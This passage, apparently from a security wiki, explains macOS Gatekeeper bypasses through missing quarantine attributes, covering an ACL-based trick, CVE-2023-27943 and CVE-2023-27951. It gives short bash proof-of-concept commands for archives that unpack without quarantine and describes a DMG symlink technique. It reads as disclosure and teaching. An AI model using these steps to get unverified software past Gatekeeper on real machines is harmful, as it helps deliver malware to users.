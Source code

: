 {% code overflow="wrap" %}
```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```
{% endcode %}

Check the [**original report**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) for more information.

Note that this could also be be exploited with AppleArchives:

```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```

### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

It was discovered that **Google Chrome wasn't setting the quarantine attribute** to downloaded files because of some macOS internal problems.

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

AppleDouble file formats store the attributes of a file in a separate file starting by `._`, this helps to copy dile attributes **across macOS machines**. However, it was noticed that after decompressing an AppleDouble file, the file starting with `._` **wasn't given the quarantine attribute**.

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}

Being able to create a file that won't have the quarantine attribute set, it was **possible to bypass Gatekeeper.** The trick was to **create a DMG file application** using the AppleDouble name convention (start it with `._`) and create a **visible file as a sym link to this hidden** file without the quarantine attribute.\
When the **dmg file is executed**, as it doesn't have a quarantine attribute it'll **bypass Gatekeeper**.

